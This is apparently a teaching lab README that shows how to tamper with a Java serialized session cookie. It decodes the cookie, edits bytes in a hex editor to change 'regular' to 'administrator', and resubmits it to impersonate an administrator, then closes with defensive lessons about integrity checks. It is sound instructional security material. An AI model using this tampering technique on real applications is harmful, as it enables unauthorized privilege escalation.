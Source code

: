 # Lab 2. Session cookie

Compile Session:
```
javac Session.java
```

"Log in" as Copernicus and use his cookie in a session:
```
java Session copernicus Poland
java Session <cookie>
```

"Log in" as Galileo and use his cookie in a session:
```
java Session galileo Italy
java Session <cookie>
```

Analyze Copernicus' cookie object:
```
echo <copernicus' cookie> | base64 -d | xxd -g 1
echo <copernicus' cookie> | base64 -d > cookie.ser
java -jar ../jdeserialize-1.2.jar cookie.ser
```

Open the cookie (serialized object) in a hex editor:
```
ghex cookie.ser
```

Replace the contents as follows:
```
regular -> administrator
07 -> 0D
```

Convert the cookie object to Base64 and "submit" to impersonate as administrator:
```
base64 -w 0 cookie.ser
java Session <new cookie>
```

## Conclusion
1. Serialized objects can be tampered with.
2. Do not trust data from untrusted sources.
3. Use integrity checks to verify serialized data.
